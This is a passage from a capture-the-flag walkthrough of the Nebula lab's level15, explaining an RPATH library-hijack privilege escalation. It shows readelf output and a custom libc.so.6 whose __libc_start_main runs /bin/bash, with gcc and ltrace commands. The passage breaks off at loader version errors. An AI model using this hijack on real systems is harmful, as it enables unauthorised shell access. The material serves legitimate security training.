 ```bash
  RELSZ                0x00000008
  RELENT               0x00000008
  VERNEED              0x08048280
  VERNEEDNUM           0x00000001
  VERSYM               0x08048276

Version References:
  required from libc.so.6:
    0x0d696910 0x00 02 GLIBC_2.0
```
We can see that the program is compiled with `RPATH`. Let check what exactly it means.
```bash
-rpath=dir
           Add a directory to the runtime library search path.  This is used when linking an ELF executable
           with shared objects.  All -rpath arguments are concatenated and passed to the runtime linker,
           which uses them to locate shared objects at runtime.  The -rpath option is also used when locating
           shared objects which are needed by shared objects explicitly included in the link;
```
So when a program is compile with `rpath`, the program looks for shared libraries in that specific path. In this case `RPATH` points to `/var/tmp/flag15`. So we can place our library file in the first path it searching.
```
open("/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
```
## Solution
So my plan is to compile a shared library with the function `__libc_start_main` so that the program executes out
custom function when the call is made.  
So I looked up details on `__libc_start_main`. [Libc reference](https://refspecs.linuxbase.org/LSB_3.0.0/LSB-PDA/LSB-PDA/baselib---libc-start-main-.html)
```cpp
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end));
```
So lets write our `libc` using this.
```bash
level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ cat libc.c
#include <stdlib.h>
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
system("/bin/bash");
return 0;
}
```
I am executing a simple `/bin/bash` shell when  `__libc_start_main` function is called.  
Lets compile it as a shared library
```bash
level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ gcc -shared -fPIC -o libc.so.6 libc.c -lc
```
Now lets try running `ltrace`
```
level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ ltrace /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: no version information available (required by /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: no version information available (required by /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6)
```
